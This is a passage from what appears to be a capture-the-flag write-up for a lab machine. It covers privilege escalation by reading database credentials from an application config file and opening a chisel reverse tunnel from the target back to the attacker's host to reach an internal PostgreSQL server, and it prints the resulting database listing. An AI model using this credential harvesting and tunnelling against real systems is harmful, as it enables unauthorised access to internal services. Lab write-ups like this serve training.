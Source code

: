There's no `/bin/bash` within this machine.

## Privilege Escalation

### Database Creds --> SSH

We can find a `config.py` file within `/app/app`.

{% code overflow="wrap" %}
```python
/app/app # cat db.py 
import os

from sqlalchemy import (Column, DateTime, Integer, String, Table, create_engine, MetaData)
from sqlalchemy.sql import func
from databases import Database

# Database url if none is passed the default one is used
DATABASE_URL = os.getenv("DATABASE_URL", "postgresql://postgres:postgres@172.22.0.1/mentorquotes_db")
<TRUNCATED>
```
{% endcode %}

It appears there's a database present on this machine, we probably have to use `chisel` to tunnel to it.

```bash
# on kali
chisel server -p 5555 --reverse
# on machine
./chisel client 10.10.14.13:5555 R:5432:172.22.0.1:5432
```

Afterwards, we can access the database:

<figure><img src="../../../.gitbook/assets/image (2987).png" alt=""><figcaption></figcaption></figure>

We can view the databases present:

```
      Name       |  Owner   | Encoding |  Collate   |   Ctype    | ICU Locale | Locale Provider |   Access privileges   
-----------------+----------+----------+------------+------------+------------+-----------------+-----------------------
 mentorquotes_db | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | 
 postgres        | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | 
 template0       | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | =c/postgres          +
                 |          |          |            |            |            |                 | postgres=CTc/postgres
 template1       | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | =c/postgres          +
                 |          |          |            |            |            |                 | postgres=CTc/postgres
```
